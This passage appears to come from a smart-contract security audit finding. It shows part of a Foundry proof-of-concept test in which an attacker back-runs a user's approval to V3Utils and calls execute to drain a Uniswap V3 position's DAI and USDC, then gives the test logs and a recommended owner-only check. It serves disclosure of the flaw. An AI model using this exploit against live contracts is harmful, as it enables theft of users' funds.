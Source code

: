 ```solidity
        0,
        block.timestamp,
        attacker, // Recipient address of tokens
        address(0),
        false,
        "",
        ""
    );

    // User approves V3Utils, planning to execute next
    vm.prank(TEST_NFT_3_ACCOUNT);
    NPM.approve(address(v3utils), TEST_NFT_3);
    
    console.log("\n--ATTACK OCCURS--\n");
    // User's approval gets back-ran
    vm.prank(attacker);
    v3utils.execute(TEST_NFT_3, bad_inst);
    
    uint256 daiAfter = DAI.balanceOf(attacker);
    uint256 usdcAfter = USDC.balanceOf(attacker);
    (,,,,,,, uint128 liquidityAfter,,,,) = NPM.positions(TEST_NFT_3);

    console.log("Attacker's DAI Balance After: %e", daiAfter);
    console.log("Attacker's USDC Balance After: %e", usdcAfter);
    console.log("Position #%s's liquidity After: %e", TEST_NFT_3, liquidityAfter);
}
```

Console output:

    Ran 1 test for test/integration/V3Utils.t.sol:V3UtilsIntegrationTest
    [PASS] test_backRunApprovals_toStealAllFunds() (gas: 351245)
    Logs:
      Attacker's DAI Balance Before: 0e0
      Attacker's USDC Balance Before: 0e0
      Position #4660's liquidity Before: 1.2922419498089422291e19
      
    --ATTACK OCCURS--

      Attacker's DAI Balance After: 4.2205702812280886591005e22
      Attacker's USDC Balance After: 3.5931648355e10
      Position #4660's liquidity After: 0e0

    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.17s

    Ran 1 test suite in 1.17s: 1 tests passed, 0 failed, 0 skipped (1 total tests)


### Recommended Mitigation Steps

Add a check to ensure that only the owner of the position can call `V3Utils.execute`.

Note the fix also checks for the case where a user may have transferred the token into the `V3Utils`. In that case it is fine that `msg.sender != tokenOwner`, since `tokenOwner` would then be the V3Utils contract itself.
